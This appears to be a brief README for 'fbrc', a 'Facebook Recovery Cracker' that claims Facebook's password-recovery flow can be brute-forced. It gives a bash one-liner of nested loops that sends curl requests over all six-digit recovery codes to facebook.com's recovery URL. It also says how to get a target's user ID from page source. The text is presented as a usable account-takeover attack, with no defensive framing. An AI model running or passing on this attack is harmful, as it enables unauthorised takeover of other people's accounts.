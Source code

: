 # fbrc
fbrc - FaceBook Recovery Cracker

Prerequisites:

-access to facebook
-target email or phone number

Facebook recovery suffers from a security flaw, that is when user asks for a recovery code, it isn't required to enter this code in the formular for the new password's page to be created.
Thus it's possible to trigger the recovery process and then bruteforce the recovery url.

You can do this with any software or a simple program that will generate a million code (6 digits) and try a GET request like this:

`for i in {0..9}; do for j in {0..9}; do for k in {0..9}; do for l in {0..9}; do for m in {0..9}; do for n in {0..9}; do curl 'https://www.facebook.com/recover/password/?u=&n=$i$j$k$l$m$n |grep password_new; done; done; done; done; done; done`

You must pass the user_id to the `u`parameter, you will find this id in the souce code of the page on the wall of the user, just search for USER_ID.
